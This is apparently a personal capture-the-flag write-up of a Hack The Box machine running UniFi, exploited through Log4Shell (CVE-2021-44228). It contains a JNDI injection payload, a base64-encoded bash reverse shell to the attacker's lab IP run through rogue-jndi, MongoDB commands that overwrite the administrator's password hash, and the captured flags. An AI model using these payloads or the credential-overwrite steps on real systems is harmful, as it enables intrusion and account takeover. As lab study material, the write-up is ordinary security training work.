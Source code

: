 
My classic scann doesnt work , it just discovered the port 22 and the 8080, when I was going to the 8443 

22/tcp   open  ssh
6789 /tcp open ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open ssl/nagios-sca Nagios NSCA

```
-sC -sV -v 10.129.154.2
```


There is a vulnerability on Unifi 

CVE-2021-44228

So, here we are going to use whatweb, so maybe we can see some services working behind of that website

https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

https://www.google.com/search?q=cve+unifi+6.4.54&sca_esv=562265780&ei=ifbzZIw838vWxA_b1pLABw&oq=CVE-2021-44228+unifi&gs_lp=Egxnd3Mtd2l6LXNlcnAiFENWRS0yMDIxLTQ0MjI4IHVuaWZpKgIIADIFEAAYogRI90BQ3ARYtR9wA3gBkAEAmAGVAaAB1AuqAQQxNi4xuAEDyAEA-AEBwgIKEAAYRxjWBBiwA8ICBhAAGBYYHsICBhAAGAgYHuIDBBgAIEGIBgGQBgg&sclient=gws-wiz-serp

THe exploit is  "rogue-jndi"

and JNDI is this: 
JNDI es una **capa de abstracción Java para servicios de directorio**, del mismo modo que JDBC (Java Database Connectivity) es una capa de abstracción para bases de datos.


### What protocol does JNDI leverage in the injection?###

The JNDI injection can leverage specific protocols to request a malicious payload from an attacker's infrastructure – including **LDAP, Secure LDAP (LDAPS), Remote Method Invocation (RMI), Domain Name Service (DNS)**.

The LDAP works on the port 389 in most of the servers. 

El protocolo ligero de acceso a directorios hace referencia a un protocolo a nivel de aplicación que permite el acceso a un servicio de directorio ordenado y distribuido para buscar diversa información en un entorno de red.

Well, I need to do this attack, on this two sites I have some info

https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

and the repository to get the exploit its here

https://github.com/veracode-research/rogue-jndi


Strangely, the hints on htb says that you can intercept the traffic with tcpdump, for sure, I think you loock the traffic between you and the machine on the port 389. Then is another hint about mongodb. I will go for the first place that is start the attack and then I will go if i need to do something like this


## The exploit ##

First we need to see if its vulnerable, intercept the petition to UniFi with burpsuit

FInally I intercepted the trafic between the website loggin UniFI network

This was the place where I must put the payload

```
{"username":"test","password":"test","remember":"${jndi:ldap://10.10.16.11/whatever}","strict":true}
```

JNDI is the acronym for the Java Naming and Directory Interface API . By making calls to this API,
applications locate resources and other program objects. A resource is a program object that provides
connections to systems, such as database servers and messaging systems.
LDAP is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral,
industry standard application protocol for accessing and maintaining distributed directory information
services over the Internet or a Network. The default port that LDAP runs on is port 389 .

The response is 

```
{"meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}
```
It says that is invalid but, it works

If we want to send the petition , we can do it with tcp dump. And we can be sure if it was success or not
```
sudo tcpdump -i tun0 port 389
```

So now , we need to download Open-JDK and Maven in order to build a payload an execute remote code on the vulnerable system .


### about jdk and maven ###

Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into jar files . These applications will also help us run the rogue-jndi Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code. Once we have installed Open-JDK, we can proceed to install Maven. But first, let’s switch to root user.

```
sudo apt install openjdk-11-jdk -y

sudo apt-get install maven

```


Once we have installed the required packages, we now need to download and build the Rogue-JNDI Java application. Let's clone the respective repository and build the package using Maven.

```
git clone https://github.com/veracode-research/rogue-jndi 
cd rogue-jndi 
mvn package
```

This will create a .jar file in rogue-jndi/target/ directory called RogueJndi-1.1.jar . Now we can construct our payload to pass into the RogueJndi-1-1.jar Java application. To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.

```
echo 'bash -c bash -i >&/dev/tcp/10.10.16.11/443 0>&1' | base64
```
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTEvNDQ0NCAwPiYxCg==

After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the --command option and your tun0 IP address to the --hostname option.

```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}| {base64,-d}|{bash,-i}" --hostname "YOUR TUN0 IP ADDRESS"
```

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

```
nc -lvp 443
```

Going back to our intercepted POST request, let's change the payload to ${jndi:ldap://Your Tun0 IP:1389/o=tomcat} and click Send .

I had some erros, remember do not put the {} on the spaces where it says something like "put your ip here"

cd /home/michael

```
user flag : 6ced1a6a89e666c0620cdb10262ba127
```
The article states we can get access to the administrator panel of the UniFi application and possibly extract SSH secrets used between the appliances. First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.

```
67  0.3  4.2 1103744 85624 ?       Sl   18:35   0:18 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
```

Let's interact with the MongoDB service by making use of the mongo command line utility and attempting to extract the administrator password. A quick Google search using the keywords UniFi Default Database shows that the default database name for the UniFi application is ace .


```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
```

![[Screenshot_2023-09-04_15_09_47.png]]

The output reveals a user called Administrator. Their password hash is located in the x_shadow variable but in this instance it cannot be cracked with any password cracking utilities. Instead we can change the x_shadow password hash with our very own created hash in order to replace the administrators password and authenticate to the administrative panel. To do this we can use the mkpasswd command line utility.

```
mkpasswd -m sha-512 Password1234
```
the pass
```
$6$Rag5SS8kW0Zz7elG$8Ukmicejrk1IpMtevOgjEQGh/SZ93Q14izhwqQ0PPlLnISUEWgXdEXwvhmZugYPKi.JcY8aTi8XfASh0W5n97/
```
note
```
The $6$ is the identifier for the hashing algorithm that is being used, which is SHA-512 in this case, therefore we will have to make a hash of the same type.
```
SHA-512, or Secure Hash Algorithm 512, is a hashing algorithm used to convert text of any length into a fixed-size string. Each output produces a SHA-512 length of 512 bits (64 bytes). This algorithm is commonly used for email addresses hashing, password hashing...



Now we need to change the password on the json db, with this command:

```
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
```

```
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$u1oGgNvYAWFUoqFe$QVPYq0.8tAjZiINvX./EkQFAX/WW8NqooFUwoV9wYzINFxVgKZilJmnck8LsyayxGyU30Ypu3pA1NIddKwASW0"}})'
```

Let's now visit the website and log in as administrator . It is very important to note that the username is case sensitive

UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal. Navigate to settings -> site and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.



this is the root flag 

```
e50bc93c75b634e4b272d2f771c33681
```